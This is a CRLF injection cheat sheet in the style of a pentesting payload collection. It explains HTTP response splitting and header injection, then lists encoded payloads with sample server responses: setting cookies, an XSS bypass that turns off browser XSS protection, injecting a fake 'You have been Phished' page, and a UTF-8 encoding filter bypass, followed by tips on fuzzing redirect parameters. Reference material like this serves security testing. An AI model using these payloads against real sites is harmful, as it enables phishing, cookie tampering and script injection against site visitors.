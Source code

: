# CRLF

>The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They’re used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.
>
>Attackers provide specially crafted text streams with crlf injections in order to trick the web application to perform unexpected and potentially harmful actions, ranging from medium to high severity.


* Response Splitting
  * XSS or Cross-Site Scripting vulnerabilities
  * Open Redirect
  * Proxy and web server cache poisoning. 
* Log Injection


>A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

<br></br>
>If the attacker inserts a single CRLF, they can add a new header. If it is, for example, a Location header, the attacker can redirect the user to a different website. Criminals may use this technique for phishing or defacing. This technique is often called HTTP header injection.

>If the attacker inserts a double CRLF, they can prematurely terminate HTTP headers and inject content before the actual website content. The injected content can contain JavaScript code. It can also be formulated so that the actual website content coming from the web server is ignored by the web browser. This is how HTTP response splitting is used in combination with Cross-site Scripting (XSS).
The following simplified example uses CRLF to:
1.	Add a fake HTTP response header: Content-Length: 0. This causes the web browser to treat this as a terminated response and begin parsing a new response.
2.	Add a fake HTTP response: HTTP/1.1 200 OK. This begins the new response.
3.	Add another fake HTTP response header: Content-Type: text/html. This is needed for the web browser to properly parse the content.
4.	Add yet another fake HTTP response header: Content-Length: 25. This causes the web browser to only parse the next 25 bytes.
5.	Add page content with an XSS: <script>alert(1)</script>. This content has exactly 25 bytes.
6.	Because of the Content-Length header, the web browser ignores the original content that comes from the web server. 
```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

Decoded :
```
http://www.example.com/somepage.php?page=
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 25

<script>alert(1)</script>
Variations of this attack can be used to poison proxy or web caches in order to get the cache to serve the attacker’s content to other users.
```

## Summary

- [CRLF - Add a cookie](#crlf---add-a-cookie)
- [CRLF - Add a cookie - XSS Bypass](#crlf---add-a-cookie---xss-bypass)
- [CRLF - Write HTML](#crlf---write-html)
- [CRLF - Filter Bypass](#crlf---filter-bypass)
- [References](#references)

## CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)


## Exploitation Tricks
* Try to search for parameters that lead to redirects and fuzz them
* Also test the mobile version of the website, sometimes it is different or uses a different backend 

## References

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CRLF%20Injection/crlfinjection.txt
